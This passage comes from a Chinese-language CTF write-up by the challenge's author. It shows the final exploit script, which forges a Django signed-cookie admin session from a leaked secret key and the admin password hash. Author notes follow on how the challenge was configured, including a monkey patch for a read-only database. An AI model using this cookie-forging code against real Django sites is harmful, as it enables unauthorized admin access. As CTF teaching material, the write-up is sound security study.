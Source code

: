 最终 exp 如下：

```python
from django.core import signing
from django.utils.crypto import salted_hmac

admin_hash = "pbkdf2_sha256$150000$KkiPe6beZ4MS$UWamIORhxnonmT4yAVnoUxScVzrqDTiE9YrrKFmX3hE="

_auth_user_hash = salted_hmac("django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash",
                              admin_hash).hexdigest()

payload = {'_auth_user_id': '1',
           '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
           '_auth_user_hash': _auth_user_hash}

cookie = signing.dumps(payload,
                       salt='django.contrib.sessions.backends.signed_cookies',
                       compress=True)

print(cookie)
```

## 花絮

### 关于 Django

一开始想出这个题，是因为自己在网上找到了铺天盖地的如何构造 Flask 的 session 和使用 Django signed cookies 的 `PickleSerializer` 的 wp，但是怎么找都找不到怎么构造 Django 的 session，才开写的。

本来这道题可以变成一道比较难的 web，但被 Z 同学发现了简单解之后，一下子就变简单了，而且我也没什么时间去改，于是就变成这样了。

其实 Django 还是挺靠谱的，单单泄漏 secret key 而不泄漏密码哈希也是搞不了这样的效果的，而且为了整出这样的「漏洞」，并方便大家测试，特地把 Django 的默认设置进行了一些魔改，包括使用 cookies（而不是在数据库里存 session）等等。

此外为了能够只读挂 SQLite 数据库，对 Django 进行了一下 monkey patch：

```python
from django.contrib.auth import models


def update_last_login(sender, user, **kwargs):
    pass


models.update_last_login = update_last_login
```

这样登录 guest 用户的时候，数据库里最后登录时间就不会更新。

最后在 `settings.py` 里面，还留了一个小彩蛋：

> SECURITY WARNING: keep the secret key used in production **non-secret**!

### 关于命名
